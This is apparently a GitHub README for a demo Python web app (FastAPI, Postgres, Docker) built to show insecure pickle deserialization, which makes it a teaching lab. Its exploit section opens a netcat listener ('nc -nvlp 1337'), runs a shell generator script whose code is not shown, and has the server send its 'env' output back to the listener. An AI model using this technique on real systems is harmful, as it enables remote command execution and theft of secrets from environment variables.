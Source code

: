 # Demo Insecure Deserialization
Demo Insecure Deserialization in Python web application using FastAPI + Async SQLAlchemy + Postgres database + Docker.

# prerequirement
This app require create postgress database before start
```
docker compose up -d --build postgres
docker compose exec -it postgres bash
createdb -h localhost -p 5432 -U dev-user ktltat_db
psql -h localhost -p 5432 -U dev-user -d ktltat_db
```

# run
Back to terminal and follow below steps:
```
docker compose up -d --build
docker compose exec ktltat_app alembic revision --autogenerate -m "initdb"
docker compose exec ktltat_app alembic upgrade head
```

# exploit
## Init netcat listener

```
nc -nvlp 1337 
```
![Image](images/init_netcat_listener.jpg)

## Get your local ip

```
ip a
note: local ip often id formated: 192.168.x.x
```
![Image](images/get_your_local_ip.jpg)

## Gen shell
```
note: Must change variable local_ip in shell_grenerator.py file before
python shell_grenerator.py
```
![Image](images/generate_shell.jpg)

## Send request attach shell
![Image](images/send_request_attach_shell.jpg)

## Exploit success
After send request attach shell, pickle module ran "env" command and sent output to netcat listener

![Image](images/exploit_success.jpg)
